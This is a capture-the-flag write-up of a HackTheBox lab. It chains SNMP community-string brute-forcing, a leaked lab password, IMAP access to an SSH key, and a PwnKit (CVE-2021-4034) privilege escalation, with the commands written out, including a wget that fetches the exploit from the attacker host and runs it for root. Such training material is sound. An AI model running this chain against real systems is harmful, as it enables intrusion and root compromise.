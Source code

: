 # Day1 - footprinting_hard

- **Platform**: HackTheBox  
- **Category**: Multi-Service / Privilege Escalation  
- **Difficulty**: Hard  
- **Date**: 2025-05-1  
- **Tools Used**: Nmap, OpenSSL, onesixtyone, SNMP, IMAP, SSH, wget, gcc  

---

## Summary
This challenge simulated a real-world multi-vector intrusion. By enumerating exposed mail and SNMP services, I discovered leaked credentials for the user *Tom*. These allowed access to his IMAP mailbox, which contained an SSH private key. After pivoting into the system via SSH, I escalated privileges using the **PwnKit (CVE-2021-4034)** exploit, gained root access, and extracted sensitive data.

---

## Enumeration
1. **Port Scanning**
   ```bash
   nmap -p- --open -sS --min-rate 5000 -n -vvv -Pn 10.129.217.100
   ```
   - Results:
     - 22 → SSH  
     - 110 / 995 → POP3/POP3S  
     - 143 / 993 → IMAP/IMAPS  

2. **Service Validation**
   - Connected via OpenSSL:
     ```bash
     openssl s_client -connect 10.129.217.100:imaps
     ```
   - Confirmed Dovecot IMAP/POP3 in use.  
   - No default creds or anonymous login permitted.  

3. **Extended Scanning**
   - UDP scan revealed SNMP (161/udp).  
   - Brute-forced community strings:
     ```bash
     onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.129.217.100
     ```
   - Discovered valid string: `backup`.  

4. **SNMP Data**
   - Extracted:
     - System name: `NIXHARD`  
     - Contact: `tech@inlanefreight.htb`  
     - Credential leak: `tom / NMds732Js2761`  

5. **IMAP Access**
   - Logged into IMAPS with Tom’s credentials.  
   - Retrieved email containing Tom’s SSH private key.  

---

## Exploitation
1. **SSH Login**
   - Saved private key and logged into system as Tom:
     ```bash
     chmod 600 id_rsa_tom
     ssh -i id_rsa_tom tom@10.129.217.100
     ```
   - Established foothold with user-level shell.  

2. **Privilege Escalation**
   - Checked kernel:
     ```bash
     uname -a
     # Linux NIXHARD 5.4.0-90-generic
     ```
   - DirtyPipe exploit not applicable (requires ≥ 5.8).  
   - Researched alternatives → found **PwnKit** exploit.  

   - Compiled statically on attacker box:
     ```bash
     gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
     python3 -m http.server 8000
     ```
   - On victim:
     ```bash
     wget http://10.10.14.1:8000/PwnKit
     chmod +x PwnKit && ./PwnKit
     ```
   - Root shell obtained.  

3. **Flag Retrieval**
   - Verified privileges:
     ```bash
     id
     # uid=0(root) gid=0(root) groups=0(root)
     ```
   - Located sensitive files:
     ```bash
     find / -name root.txt 2>/dev/null
     cat /root/root.txt
     ```
   - Found `users.sql` containing additional credentials.  

---

## Lessons Learned
- **Layered enumeration** is critical — pivoting from IMAP/POP3 to SNMP uncovered credentials that weren’t obvious initially.  
- **SNMP misconfigurations** can leak critical secrets (user passwords, system info).  
- **Persistence and methodology** matter: chasing DirtyPipe wasted time, but revisiting basics led to the correct kernel exploit.  
- **PwnKit (CVE-2021-4034)** remains a reliable escalation vector on Ubuntu 20.04 systems.  
- Realistic pentests often require chaining multiple vulnerabilities across services to achieve root access.  
